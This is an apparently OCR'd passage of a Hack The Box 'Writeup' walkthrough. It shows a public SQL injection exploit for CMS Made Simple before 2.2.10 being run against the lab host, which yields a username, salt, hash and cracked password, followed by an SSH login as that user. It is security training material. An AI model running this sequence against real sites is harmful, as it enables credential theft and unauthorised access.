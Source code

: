 ```
\| exploits/php/webapps/46546.py

\-----------------------------------------------------------------------------------------------
----------------------------------------

Shellcodes: No Result

Papers: No Result
```

### Low Privilege Exploit

Using CMS Made Simple \< 2.2.10 - SQL Injection exploit to obtain username and
password for the low privilege user.

```
root\@lifesfun:\~/HTB/Writeup\# python 46635.py -u http://10.10.10.138/writeup/
--crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 5a599ef579066807

[+] Username found: jkr

[+] Email found: jkr\@writeup.htb

[+] Password found: 62def4866937f08cc13bab43bb14e6f7

[+] Password cracked: raykayjay9
```

### Low Privilege Shell

```
root\@lifesfun:\~\# ssh jkr\@10.10.10.138

jkr\@10.10.10.138's password:

Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/\*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

Last login: Sun Sep 29 19:58:26 2019 from 10.10.13.54
```

### User Flag
